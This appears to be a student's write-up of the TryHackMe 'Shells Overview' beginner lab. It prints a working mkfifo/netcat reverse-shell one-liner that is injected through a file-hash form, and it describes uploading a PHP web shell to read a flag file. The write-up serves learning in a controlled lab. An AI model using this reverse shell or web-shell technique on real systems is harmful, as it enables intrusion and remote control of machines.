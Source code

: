 # Shells Overview

# Info

- Author: Huan Phan Canh Dang
- Finish: 8/12/2025
- GitHub: harrybrwnie

# Overview

The Shells Overview room on TryHackMe is part of the Cyber Security 101 learning path, designed for beginners to understand the concept of shells in cybersecurity. Shells are command-line interfaces that allow interaction with an operating system, and in the context of cybersecurity, they are critical tools used by attackers to remotely control compromised systems. This room focuses on explaining different types of shells (reverse, bind, and web shells), their use cases, and how to implement them in controlled environments for penetration testing.

# Learning Objectives

- Understand the role of shells in offensive security and post-exploitation
- Differentiate between reverse shells, bind shells, and web shells
- Learn to exploit vulnerabilities (e.g command injection, unrestricted file upload) to deploy shells
- Gain insight into detecting and mitigating shells from a defensive perspectives

# Question 1

![image.png](img/image.png)

Get into the URL and observed that there is a page get file on server and output the hash of that file.

![image.png](img/image%201.png)

Try to get the hash of hello.txt file

![image.png](img/image%202.png)

Using this payload to get a reverse shell

```python
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc 10.201.123.82 4444 >/tmp/f
```

On our machine, listen on port 4444 by using the nc command

![image.png](img/image%203.png)

Paste the payload into the form and send it to the server, then server will executes that payload

![image.png](img/image%204.png)

After had sent the payload, we get the reverse shell

Then investigated server and found there is a flag.txt at / directory and cat it out to get the flag

![image.png](img/image%205.png)

![image.png](img/image%206.png)

![image.png](img/image%207.png)

## Question 2

![image.png](img/image%208.png)

On our machine, create a shell.php file

In the file content, we use php to set a cmd parameter for server to implement

![image.png](img/image%209.png)

Then upload shell.php onto server

![image.png](img/image%2010.png)

By changing the URL to force server execute the code (.php) and set cmd to our command (cat /flag.txt) we get the flag

![image.png](img/image%2011.png)

![image.png](img/image%2012.png)